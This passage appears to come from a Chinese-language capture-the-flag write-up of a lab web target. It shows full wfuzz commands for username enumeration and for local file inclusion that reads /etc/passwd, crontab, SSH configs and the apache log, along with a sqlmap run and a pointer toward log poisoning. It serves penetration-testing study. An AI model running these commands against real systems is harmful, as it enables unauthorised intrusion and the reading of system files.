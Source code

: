 那里有一个文本框。几次尝试之后，这个框只是一个文本框，用来检查用户是否存在。使用用户名字典简单地运行模糊化，

```
# wfuzz -c -w ~/names.txt -d "name=FUZZ&sub=whoami" -X POST -b "PHPSESSID=b1ttpdegqsltofrbcj2ko4akj2" -u http://10.10.X.X/detail.php --filter "h>1572"
....
000000086:   200        117 L    119 W      1643 Ch     "admin"
```

仅找到“admin”用户名。没关系，只是运行简单的 sqlmap 来检查任何 SQL 注入漏洞，

```
# sqlmap --forms --url http://10.10.X.X/detail.php --cookie="PHPSESSID=b1ttpdegqsltofrbcj2ko4akj2" --random-agent --risk=3
```

这里也没有运气。如果我们看源代码，那里有一个提示说有“page”参数可以使用。再次运行 fuzzing，

```
# wfuzz -c -w ~/LFI.txt -u "http://10.10.X.X/detail.php?page=FUZZ" -b "PHPSESSID=b1ttpdegqsltofrbcj2ko4akj2" --filter "l>117"
**000000015:   200        132 L    237 W      2209 Ch     "/etc/crontab"**
**000000001:   200        149 L    154 W      3144 Ch     "/etc/passwd"**
000000018:   200        127 L    188 W      1948 Ch     "/etc/fstab"
000000005:   200        352 L    1242 W     8871 Ch     "/etc/apache2/apache2.conf"
000000026:   200        134 L    224 W      2201 Ch     "/etc/hosts.deny"
000000038:   200        119 L    118 W      1511 Ch     "/etc/issue"
000000025:   200        127 L    170 W      1902 Ch     "/etc/hosts.allow"
000000024:   200        124 L    135 W      1673 Ch     "/etc/hosts"
000000053:   200        119 L    125 W      1579 Ch     "/etc/networks"
000000051:   200        140 L    248 W      2361 Ch     "/etc/mysql/my.cnf"
000000055:   200        149 L    154 W      3144 Ch     "/etc/passwd"
000000052:   200        121 L    129 W      1588 Ch     "/etc/network/interfaces"
000000048:   200        150 L    311 W      3893 Ch     "/etc/mtab"
000000044:   200        121 L    119 W      1596 Ch     "/etc/lsb-release"
000000080:   200        136 L    228 W      2240 Ch     "/etc/resolv.conf"
000000070:   200        144 L    210 W      2068 Ch     "/etc/profile"
000000083:   200        168 L    332 W      3074 Ch     "/etc/ssh/ssh_config"
....
....
000000084:   200        239 L    509 W      4744 Ch     "/etc/ssh/sshd_config"
**000000164:   200        13309 L  165696 W   1371210 Ch   "/var/log/apache2/access.log"**
000000181:   200        9912 L   58696 W    693025 Ch   "/var/log/dpkg.log"
000000220:   200        133 L    226 W      57158 Ch    "/var/log/wtmp"
```

参考结果，`crontab`文件中没有可用的权限提升。同样适用于`passwd`文件。最后一个是 apache 日志。这方面的常见问题是日志中毒漏洞。

参照[**payloadofall things**](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

![](img/230cb17ed14c547195b982bac7dfdbbb.png)
